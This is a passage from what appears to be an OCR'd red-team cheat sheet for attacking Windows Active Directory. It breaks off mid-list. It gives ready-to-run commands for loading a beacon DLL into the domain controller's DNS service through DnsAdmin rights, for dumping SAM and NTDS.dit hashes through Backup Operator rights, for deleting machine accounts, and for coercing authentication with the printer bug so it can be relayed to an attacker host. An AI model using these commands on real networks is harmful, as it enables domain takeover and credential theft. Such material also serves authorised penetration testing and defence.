 	- 2\. Delete computer account \(requires elevated privileges\):
		- \([C2\-Tool\-Collection-BOF](https://github.com/outflanknl/C2-Tool-Collection)\): `DelMachineAccount <computer name>`
		- \(StandIn\): `standin --computer <newly created computer account> --delete (--domain <domain> --user <user> --pass <password>)`


---
### __Domain group privilege abuse:__
#### _DnsAdmin Privilege:_
This privilege allows you to injects an arbitrary DLL with SYSTEM privileges into the dns\.exe process on the  DNS Server \(which is most likely the DC\)\. 
- 1\. Create malicious DLL that starts a beacon
- 2\. Upload the DLL to a for the DNS server accessible share\.
- 3\. Abuse your DnsAdmin privileges to \(re\)place the dll \(most likely works on all servers and workstations with RSAT installed\): `dnscmd <FQDN DC> /config /serverlevelplugindll \\<path to beacon.dll>`
- 4\. Restart DNS server \(requires GPO security settings to allow DnsAdmin group to have full control over DNS server \(can be found in GPO: Policy > Windows Settings > Security Settings > System Settings > DNS Server\)\):
	- 1: `sc.exe \\<FQDN DC> stop dns`
	- 2: `sc.exe \\<FQDN DC> start dns`
- 5\. \(optional\) Remove added DLL from the target registry \(login to DC first\): `Remove-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\\Parameters\ -Name ServerLevelPluginDll`

#### _Backup Operator privilege:_
If you compromise an account member of the group Backup Operators you can become the Domain Admin without RDP or WinRM on the Domain Controller\.
- 1\. Dump the SAM of the target DC \([BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA)\): `BackupOperatorToDA.exe -t \\<FQDN DC> -o \\<path to widely accessible share> (-u <username account with backup operator privs> -p <password> -d <domain>)`
- 2\. \(optional\) Download the SAM/SYSTEM/SECURITY files from the share to your local system
- 3\. Dump hashes via either secretsdump\.py or secretsdump\.exe via the LOCAL method: `secretsdump.exe LOCAL -system <path to SAM> -security <path to SECURITY> -system <path to SYSTEM>`
- 4\. Copy and use the DC machine account hash to dump its own NTDS\.dit file using again secretsdump\.py or secretsdump\.exe: `secretsdump.exe <FQDN>/<DC machine name>$@<FQDN DC> -hashes <both NTLM hash parts DC> -just-dc-user <DA account>`


---
### __Relay based attacks & coerce techniques:__
#### _Test for LDAP signing and binding:_
This technique verifies if LDAP signing and binding are disabled on the DC and thus relay attacks using LDAP are possible\.
- \([LdapSignCheck-BOF](https://github.com/cube0x0/LdapSignCheck)\) \(also has a C\# variant\): `ldapsigncheck <FQDN DC>`
- \([ldap\-scanner](https://github.com/GoSecure/ldap-scanner)\): `python3 ldap-scanner.py <FQDN>/<username>:<password>@<IP target DC>`

#### _Remotely coerce target computer to authenticate to an arbitrary system:_
>The relayed system must be different from the target system\. 
- SpoolSample bug \(MS\-RPRN\):
	- SMB relay:
		- \([krbrelayx](https://github.com/dirkjanm/krbrelayx)\): `python3 printerbug.py -hashes <NTLM hash (hash:hash)> <FQDN>/<account name>@<IP or FQDN of sysem to coerce> <IP or FQDN system to sent courced connection to>`
		- \([Invoke\-Spoolsample](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)\): `Invoke-SpoolSample -command "<IP or FQDN of sysem to coerce> <IP or FQDN system to sent courced connection to>"`
	- WebDAV relay: \([krbrelayx](https://github.com/dirkjanm/krbrelayx)\): `python printerbug.py <FQDN>/<username>@<FQDN target system> '<hostname to connect back to>@80/test'`
- PetitPotam \(MS\-EFSR\): if targeting a non\-patched DC, credentials are not required: